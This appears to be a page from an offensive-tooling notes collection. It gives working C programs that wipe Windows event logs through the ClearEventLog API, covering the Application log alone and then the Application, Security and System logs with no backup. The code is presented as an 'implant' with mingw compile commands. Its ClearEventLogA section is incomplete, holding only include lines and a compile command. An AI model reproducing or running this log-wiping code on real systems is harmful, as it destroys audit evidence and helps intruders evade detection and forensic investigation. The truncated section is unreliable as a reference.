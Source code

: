 # Clear Event Logs

## ClearEventLog

### C

Clear a single event log.

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_name = "Application";

    // Open the event log
    handle_event_log = OpenEventLog(NULL, event_log_name);
    if (handle_event_log == NULL) {
        printf("Failed to open event log. Error: %lu\n", GetLastError());
        return 1;
    }

    // Clear the event log without saving a backup
    if (ClearEventLog(handle_event_log, NULL) == 0) {
        printf("Failed to clear event log. Error: %lu\n", GetLastError());
        CloseEventLog(handle_event_log);
        return 1;
    }

    printf("Successfully cleared the event log: %s\n", event_log_name);

    CloseEventLog(handle_event_log);

    return 0;
}
```

Clear multiple event logs.

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")

int main() {
    HANDLE handle_event_log;
    LPCSTR event_log_names[] = {"Application", "Security", "System"};

    // Loop through each log and attempt to clear it
    for (int i = 0; i < sizeof(event_log_names) / sizeof(event_log_names[0]); i++) {
        // Open the event log
        handle_event_log = OpenEventLog(NULL, event_log_names[i]);
        if (handle_event_log == NULL) {
            printf("Failed to open event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
            continue;  // Move to the next log if opening fails
        }

        // Clear the event log without saving a backup
        if (ClearEventLog(handle_event_log, NULL) == 0) {
            printf("Failed to clear event log: %s. Error: %lu\n", event_log_names[i], GetLastError());
        } else {
            printf("Successfully cleared the event log: %s\n", event_log_names[i]);
        }

        CloseEventLog(handle_event_log);
    }

    return 0;
}
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

## ClearEventLogA

### C

```c
#include <stdio.h>
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "advapi32.lib")
```

To compile the implant.

```
$ x86_64-w64-mingw32-gcc -l advapi32 -o implant.exe implant.c
```

---
## References

- [OpenEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventloga)

- [OpenEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-openeventlogw)

- [ClearEventLog](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/eventlogprov/cleareventlog-method-in-class-win32-nteventlogfile)

- [ClearEventLogA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventloga)

- [ClearEventLogW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-cleareventlogw)

- [CloseEventLog](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-closeeventlog)